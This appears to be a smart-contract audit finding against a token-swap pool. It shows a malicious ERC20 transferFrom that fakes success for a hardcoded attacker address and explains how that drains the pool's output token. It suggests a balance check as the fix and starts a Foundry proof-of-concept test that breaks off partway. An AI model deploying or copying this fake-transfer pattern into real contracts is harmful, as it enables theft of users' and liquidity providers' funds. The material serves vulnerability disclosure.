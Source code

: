1) Create an ERC20 token replacing the transferFrom() function by this malicious code :

```solidity
function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
        address spender = _msgSender();

	if (address(from) == address(0x7BcADA6410D7d84fE5A9Aa4CC546EB51c8982DFF)) { //0x...attackerAccount...
		return true;
	} 

        _spendAllowance(from, spender, value);
        _transfer(from, to, value);
        return true;
    }
```
If and only if the address is the attacker address, then do not transfer tokens but return true as if the transfer was done.

2) inputToken.safeTransfer(0xattackerAccount, address(this), inputAmount) will not fail and the next line of code,
which is transfering the outputToken, will go through.
We just robbed the Pool !

Solution to mitigate :
You should verify the balance of the inputToken in the pool contract after the supposedly transfer before executing the transfer of the outputToken.

-----
POC: Modify TSwapPool.t.sol with this :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { Test, console } from "forge-std/Test.sol";
import { TSwapPool } from "../../src/PoolFactory.sol";
import { ERC20Mock } from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import { ERC20MockMalicious } from "../../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20MockMalicious.sol";
import { IERC20 } from "@openzeppelin/contracts/interfaces/IERC20.sol";

contract TSwapPoolTest is Test {
    TSwapPool pool;
    ERC20MockMalicious poolToken;
    ERC20Mock weth;

    address liquidityProvider = makeAddr("liquidityProvider");
    //address user = makeAddr("user");
    address user = address(0x7BcADA6410D7d84fE5A9Aa4CC546EB51c8982DFF);

    function setUp() public {
        poolToken = new ERC20MockMalicious();
        weth = new ERC20Mock();
        pool = new TSwapPool(address(poolToken), address(weth), "LTokenA", "LA");

        weth.mint(liquidityProvider, 200e18);
        poolToken.mint(liquidityProvider, 200e18);

        weth.mint(user, 10e18);
        poolToken.mint(user, 10e18);
    }

function testDepositSwap() public { // Test Deposit + fake swap to prove we can steal funds with Malicious ERC20 token code because of lack of check after "swapping"
        vm.startPrank(liquidityProvider);
```